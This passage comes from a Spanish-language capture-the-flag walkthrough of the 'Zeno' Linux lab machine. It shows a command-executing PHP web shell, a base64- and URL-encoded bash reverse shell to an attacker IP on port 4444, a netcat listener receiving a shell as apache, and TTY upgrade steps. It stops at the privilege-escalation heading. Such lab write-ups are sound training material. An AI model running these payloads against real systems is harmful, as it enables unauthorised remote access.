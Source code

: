 - Ahora bien, si visitamos la url `http://10.10.55.120:12340/rms/images/rev-shell.php?cmd=id` debería arrojarnos la id del usuario.

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f871ee41-b38d-4ffb-b755-1852a73bd80b)

- Solo debemos cambiar el comando a un payload encodeado para evitar conflicto con caracteres especiales:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Zeno]
└─$ echo -ne 'bash -c "bash -i >& /dev/tcp/10.2.60.167/4444 0>&1"' | base64                           
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjYwLjE2Ny80NDQ0IDA+JjEi
~~~

- Y nuestro payload quedaría así:

~~~bash
echo -ne "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjYwLjE2Ny80NDQ0IDA+JjEi" | base64 -d | bash
~~~

- Si la conexión no se realiza, siempre podemos encodeara el payload en URL desde en Decoder de burpsuite:

~~~URL
%65%63%68%6f%20%2d%6e%65%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%79%4c%6a%59%77%4c%6a%45%32%4e%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%69%22%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68
~~~

- Nos ponemos en escucha y deberíamos ganar una conexión a la máquina:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Zeno]
└─$ nc -lvnp 4444                                                   
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.55.120] 41182
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
~~~

- Ahora hacemos un tratamiento de la TTY y podemos proseguir con la escalada de privilegios:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***
<h3>PrivEsc. Apache --> User1:</h3>
